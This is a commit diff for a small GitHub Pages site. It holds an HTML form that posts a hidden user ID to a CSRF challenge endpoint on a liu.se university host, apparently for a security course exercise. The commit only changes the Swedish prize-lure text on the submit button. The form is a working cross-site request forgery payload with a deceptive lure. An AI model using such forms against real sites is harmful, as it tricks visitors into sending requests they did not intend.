

Before and after one commit to spamannen/spamannen.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

```diff
--- a/index.html
+++ b/index.html
@@ -1,4 +1,4 @@
 <form name="leForm" action="https://snickerboa.it.liu.se/user/csrfchallengetwo/plusplus" method="POST">
     <input type="hidden" name="userId" value=" 86109c9eed773b92480275854966986d3c4901a6" />
-    <input type="submit" value="Klicka här och vinn 100000$$$"/>
+    <input type="submit" value="Klicka här och vinn tiotusenmiljarder kr"/>
 </form>
```
